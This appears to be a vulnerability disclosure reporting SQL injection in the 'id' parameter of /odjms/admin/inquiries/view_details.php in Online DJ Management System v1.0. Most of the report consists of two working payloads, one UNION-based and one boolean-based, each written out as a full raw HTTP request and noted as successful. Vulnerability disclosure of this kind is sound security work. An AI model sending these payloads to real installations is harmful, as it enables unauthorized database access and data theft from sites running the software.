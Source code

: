 # Online DJ Management System v1.0 has SQL injection

BUG_Author:yohane

Website source code address: https://www.sourcecodester.com/php/15150/online-dj-management-system-phpoop-free-source-code.html

Vulnerability File: /odjms/admin/inquiries/view_details.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,null,null,concat(0x66676869,0x515253),null,null-- -

```
GET /odjms/admin/inquiries/view_details.php?id=-1%27%20union%20all%20select%20null,null,null,null,concat(0x66676869,0x515253),null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fadnbe58h1fq1i9pdtcrr5juc1
Connection: close
```

union query success

![image](https://github.com/yoyoyoyoyohane/bug_report/blob/main/sql1.png)

Payload2:id=1' and 6=6 AND 'x'='x

```
GET /odjms/admin/inquiries/view_details.php?id=1%27%20and%206=6%20AND%20%27x%27=%27x HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fadnbe58h1fq1i9pdtcrr5juc1
Connection: close
```

The page is echoed normally

![image](https://github.com/yoyoyoyoyohane/bug_report/blob/main/sql2.png)
